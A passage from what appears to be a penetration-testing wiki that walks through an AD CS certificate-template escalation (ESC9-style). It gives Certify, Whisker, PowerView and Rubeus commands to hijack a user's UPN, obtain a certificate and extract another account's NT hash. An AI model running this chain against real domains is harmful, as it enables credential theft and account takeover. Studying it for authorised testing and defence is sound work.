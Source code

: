 From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::


### (ESC10) Weak certificate mapping 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).
